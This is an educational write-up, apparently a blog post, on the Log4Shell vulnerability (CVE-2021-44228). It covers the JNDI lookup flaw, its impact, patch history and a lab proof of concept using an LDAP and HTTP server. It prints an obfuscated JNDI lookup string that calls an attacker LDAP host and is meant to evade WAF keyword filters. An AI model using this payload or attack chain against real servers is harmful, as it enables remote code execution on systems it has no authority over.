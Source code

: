 ### Study on CVE-2021–44228: Log4Shell — Log4J RCE Vulnerability

Apache Log4J is a popular logging tool for Java software.

Besides the normal logging function with text information, Log4J supports various lookups within the log that add flexibility for users to add dynamic queries within logs. When logging, Log4J supports a feature *lookup* to perform a string substitution on the form *${prefix:content}.*

For example, an environment lookup like *${java:os}* can be used to get the OS information and output to logs.

![img](https://cdn-images-1.medium.com/max/1200/1*ygesFyCgenIDYW2wHaze1Q.png)

### Flaw

When passing a string to the Log4J logger without performing contents check, no matter where the string comes from, if the string contains a lookup, the logger will execute every lookup expression within the string.

One of the lookups is JNDI lookup *${jndi:path/context-name}*, which could be used to retrieve variables via JNDI API when logging. However, JNDI lookup supports protocols like RMI and LDAP to fetch resources remotely.

The resource could be a serialized Java Object hosted by a remote server, fetched via resolving LDAP or RMI reference. Log4J does not check or filter the result from the LDAP request through JNDI lookup by default.

### Vulnerability

Therefore, an attacker could initialize a remote Java code execution attack by putting a string of a JNDI lookup containing an attacker-controlled LDAP address in the request payload, and send this request to the server using any protocols that the target server supports (for example, pass the exploit string when entering the username or email address).

If the server is using Log4J, there is a high probability that the server’s Log4J logger will perform a JNDI lookup when logging the attacker’s input. Then, the target server will pull executable code from the attacker-controlled LDAP service and execute it eventually.

### Imapct

Since Apache Log4J is a ubiquitous logging utility in the industry. Focusing solely on Apache’s own projects, there are 21 projects have been affected out of 41 projects in total, including commonly used projects like Struts, Flink, JMeter. Affected web services include AWS, Cloudflare, iCloud, and so on. Even the popular game Minecraft was vulnerable to a *Log4Shell* attack.

Due to its incredible severity, it got a 10/10 score (most critical) in the CVSS rating system. According to an analysis conducted by EY and Wiz, this vulnerability affected 93% of enterprise cloud systems.

### Lifecycle and Mitigations

In 2013, Apache merged a JNDI lookup plugin as a useful add-on, and set it enabled by default since version.

After 8 years, this vulnerability is first reported by Alibaba Cloud’s security team on November 24, 2021. Apache released the first mitigation update of Log4J (version 2.15.0) on December 6, 2021.

On December 10, 2021, the related CVE is published.

The affected versions of Log4J are from 2.0-beta9 to 2.14.1. However, more vulnerabilities were found during the release of version 2.15.0 to 2.17.0, and 3 more CVEs were published.

As of Log4J 2.17.0 JNDI operations require that *log4j2.enableJndiLookup=true* be set as a system property or the corresponding environment variable for this lookup to function.

JNDI functionality has been hardened in these versions: 2.3.1, 2.12.2, 2.12.3 or 2.17.0. From these versions onwards, support for the LDAP protocol has been removed and only the Java protocol is supported in JNDI connections.

Therefore, users of Log4J should upgrade their Log4J version to 2.17.1 or a newer version at this moment.

### Proof of Concept

The process of attack on \textit{Log4Shell} vulnerability is illustrated as Figure 1.

On the attacker side, we need to prepare

1. a Java class containing code we want to execute,
2. an LDAP server and,
3. an HTTP server.

First, I create a Java class Payload (see top-right window of Figure), and compile it into a .class file.

Once executed, this class will create a new pwned.txt file under /tmp directory on the target machine.

Then, I start a python HTTP server at 8000 port to host the malicious code (see top-left of Figure 8),

and use the marshalsec toolkit to start an LDAP server at 1389 (see top-middle of Figure 8).



On the target server side, I choose Spring to start a HTTP web server at port 8080, and use Log4J 2.14.1 to log header of HTTP requests (see bottom-left of Figure).

After setting up the testing environment. The attack can be initialized by just sending a single HTTP request to the target server.

The request is quite simple, it includes a JNDI lookup string somewhere in header.

![img](https://cdn-images-1.medium.com/max/1200/1*g063_p0FHTE2CngajOyu4Q.png)

In a real-life scenario, the attacker needs to try different request sections or input fields on forms to inject the lookup string.

After the target server receives this request, the Log4J logger will run the JNDI lookup and eventually execute payload.class fetched from the attacker-controlled LDAP server. The attacker could take control of the target device by establishing a reverse TCP connection, or even gain the root privilege together with post-exploitation methods to take full control of the target system.

Moreover, the attacker could obfuscate the lookup expression to bypass the keyword check mechanism of the server by using Log4J’s own string substitution lookups.

If the target machine is using detection like the web application firewall that rejects all requests containing a “{jndi:|’’ fragment, the attacker can easily bypass this detection by using other substitution methods like the upper or lower.

*${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://10.13.37.105/payload}*

### Trace

Since this vulnerability occurs on a logging utility. After a JNDI lookup, logger will leave a log of the malicious JNDI lookup string as in Figure 9 (bottom-left).

![img](https://cdn-images-1.medium.com/max/1200/1*BQBPL9E9skL6zqk1tFBbFQ.png)

### Conclusion

After studying the Log4Shell vulnerability, I am impressed that such a simple flaw leads to a disaster in the industry. Therefore, when updating a popular tool, the organization should let users know what has changed and should set the new feature as opt-in (disabled by default).

On the other hand, from the aspect of developers, we should know more about the tools they are using, especially the configurations, to prevent any unexpected potential vulnerability, and use security mechanisms layered together to ensure that the failure of a single flaw does not lead to a full damage.